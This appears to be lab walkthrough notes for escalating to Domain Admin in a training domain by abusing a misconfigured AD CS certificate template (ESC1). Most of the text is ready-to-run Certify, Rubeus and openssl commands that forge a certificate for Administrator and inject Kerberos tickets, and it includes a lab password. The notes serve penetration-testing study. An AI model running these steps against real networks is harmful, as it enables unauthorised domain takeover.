 Enumerate the templates:
```powershell
Certify.exe find
```

Enumerate vulnerable templates:
```powershell
Certify.exe find /vulnerable
```

Common requirements/misconfigurations for all the Escalations:
```
- CA grants normal/low-privileged users enrollment rights
- Manager approval is disabled
- Authorization signatures are not required
- The target template grants normal/low-privileged users enrollment rights
```

## Escalation

- In techcorp, the user pawadmin has enrollment rights to a template **-ForAdminsofPrivilegedAccessWorkstations**
- The template has **ENROLLEE_SUPPLIES_SUBJECT** value for msPKI-Certificates-Name-Flag. (**ESC1**)
- This means pawadmin can request certificate for ANY user.

Note that this does not show up when we enumerate vulnerable templates in Certify. Use:
```powershell
Certify.exe find
Certify.exe find /enrolleeSuppliesSubject
```

- We have the certificate of pawadmin that we extracted from us-jump. (**THEFT4**)

Use the certificate to request a TGT for pawadmin and inject it:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:pawadmin /certificate:C:\AD\Tools\pawadmin.pfx /password:SecretPass@123 /nowrap /ptt
```


## Escalation to DA

Request a certificate for DA!
```powershell
C:\AD\Tools\Certify.exe request /ca:Techcorp-DC.techcorp.local\TECHCORP-DC-CA /template:ForAdminsofPrivilegedAccessWorkstations /altname:Administrator
```

Convert from cert.pem to pfx:
```powershell
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\DA.pfx
```

Request DA TGT and inject it:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:Administrator /certificate:C:\AD\Tools\DA.pfx /password:SecretPass@123 /nowrap /ptt
```
